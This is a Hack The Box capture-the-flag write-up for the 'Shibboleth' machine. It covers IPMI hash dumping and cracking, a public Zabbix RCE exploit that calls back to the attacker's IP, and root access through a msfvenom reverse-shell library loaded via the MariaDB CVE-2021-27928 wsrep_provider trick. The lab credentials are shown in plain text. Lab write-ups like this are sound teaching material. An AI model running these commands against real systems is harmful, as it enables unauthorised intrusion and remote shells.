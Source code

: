 ```yaml
---
layout: single
title: Shibolleth - Hack The Box
date: 2022-04-25
excerpt: "Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained."
header:
  teaser: /assets/img/shibolleth/cover.png
  teaser_home_page: true
  icon: /assets/htb.png
categories:
  - hackthebox
  - infosec
tag:
    - UDP
    - IPMI
    - Zabbix
    - MariaDB
    - RCE
    - CVE-2021-27928
toc: true
toc_sticky: true
---
```


![](/assets/img/shibolleth/cover.png)

## Synopsis

Shibboleth is a medium difficulty Linux machine featuring IPMI and Zabbix software. IPMI authentication is
found to be vulnerable to remote password hash retrieval. The hash can be cracked and Zabbix access can
be obtained using these credentials. Foothold can be gained by abusing the Zabbix agent in order to run
system commands. The initial password can be re-used to login as the ipmi-svc and acquire the user flag.
A MySQL service is identified and found to be vulnerable to OS command execution. After successfully
exploiting this service a root shell is gained.

## Portscan

```powershell
PORT   STATE SERVICE
80/tcp open  http
|_http-title: Did not follow redirect to http://shibboleth.htb/
```

## Reconaissance

### HTTP

added new shibboleth.htb into hosts file, because only port 80 is open.

![](/assets/img/shibolleth/1.png)

then i use feroxbuster to scan directory

feroxbuster result:

```bash
 🎯  Target Url            │ http://shibboleth.htb/
 🚀  Threads               │ 50
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405, 500]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.7.0
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 🏁  HTTP methods          │ [GET]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Management Menu™
──────────────────────────────────────────────────
200      GET     1323l     4114w    59474c http://shibboleth.htb/
301      GET        9l       28w      317c http://shibboleth.htb/assets => http://shibboleth.htb/assets/
301      GET        9l       28w      316c http://shibboleth.htb/forms => http://shibboleth.htb/forms/
403      GET        9l       28w      279c http://shibboleth.htb/server-status
```

inside /get we only see two files

![](/assets/img/shibolleth/2.png)

README.txt

```
Fully working PHP/AJAX contact form script is available in the pro version of the template.
You can buy it from: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
```

contact.php

```
Unable to load the "PHP Email Form" Library!
```

it seems that these two files are the defaults of the template, continuing the process for fuzzing sub domain with `ffuf`

```bash
ffuf -c -u http://shibolleth.htb -w /usr/share/seclists/Discover/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.shibolleth.htb" -fw 18
```

![](/assets/img/shibolleth/3.png)

added new sub domains into hosts file again, accessing this page [zabbix](http://zabbix.shibboleth.htb/) will find login page

![](/assets/img/shibolleth/4.png)

find a lot of exploit too using `searchsploit`

![](/assets/img/shibolleth/5.png)

basically what is zabbix, in short zabbix is open source monitoring software tool, including networks, servers, VM, and cloud services. Zabbix also provides monitoring metrics such as network utilization, CPU load and disk space consumpution.

already tried admin:admin on login page without any luck, because to carry out the exploitation requires credentials. Back to the initial stage of scanning on UDP using nmap.

```
nmap -sU $ip
```

result of nmap 

```bash
PORT    STATE SERVICE
623/udp open  asf-rmcp
```

according on [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi#vulnerability-ipmi-2.0-rakp-authentication-remote-password-hash-retrieval) we able to dump hash from rmcp using metasploit.

in metasploit we should use the ipmi module with following setup:

```
use scanner/ipmi/ipmi_dumphashes
set output_hashcat_file yes
set rhost ip-shibolleth
```

execute command `run` will obtain hashes for administrator user

![](/assets/img/shibolleth/8.png)

that hash use algorithm SHA1 then run `hashcat` with modul 7300

```
hashcat -a 0 -m 7300 hash /usr/share/wordlists/rockyou.txt
```

![](/assets/img/shibolleth/9.png)

```
Administrator:ilovepumkinpie1
```

back to zabbix and use this credentials

![](/assets/img/shibolleth/10.png)

as you can see we able to logged in, now this zabbix version is 5.0 with affected of RCE vulnerability.
you can grab public exploit in [here](https://www.exploit-db.com/exploits/50816)

execute this command below will gain acess into system

```python
python 50816.py http://monitoring.shibboleth.htb/ Administrator ilovepumkinpie1 10.10.14.8 9000
```

![](/assets/img/shibolleth/11.png)

## Privilege Escalation

password reuse for user ipmi-svc, and on enumeration i managed to find the configuration file

![](/assets/img/shibolleth/12.png)

read the configuration file and find the credentials for Maria Database

```bash
### Option: DBHost
# DBHost=localhost
### Option: DBName
# DBName=

DBName=zabbix
### Option: DBSchema
# DBSchema=
### Option: DBUser
# DBUser=
DBUser=zabbix

### Option: DBPassword
DBPassword=bloooarskybluh

### Option: DBSocket
# DBSocket=
### Option: DBPort
```

mysql service running locally on port 3306 by default, lets dump it

![](/assets/img/shibolleth/13.png)

get the information from table users

![](/assets/img/shibolleth/14.png)

thats hash didnt show me the way, so the thing is we had to exploit the mysql version

![](/assets/img/shibolleth/15.png)

this MariaDB version affected of CVE-2021-27928, you can read the poc in [here](https://github.com/Al1ex/CVE-2021-27928).

create the payload using `msfvenom` and upload into target in /tmp folder

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=9002 -f elf-so -o CVE-2021-27928.so
```

makesure listener ready and execute command below will lead you into root system

```
mysql -u zabbix -pbloooarskybluh -e 'SET GLOBAL wsrep_provider="/tmp/CVE-2021-27928.so"';
```

![](/assets/img/shibolleth/16.png)

## REFERENCESS
```text
https://book.hacktricks.xyz/network-services-pentesting/623-udp-ipmi
http://g2pc1.bu.edu/~qzpeng/manual/MySQL%20Commands.htm
https://netsec.ws/?p=337
https://hashcat.net/wiki/doku.php?id=example_hashes
```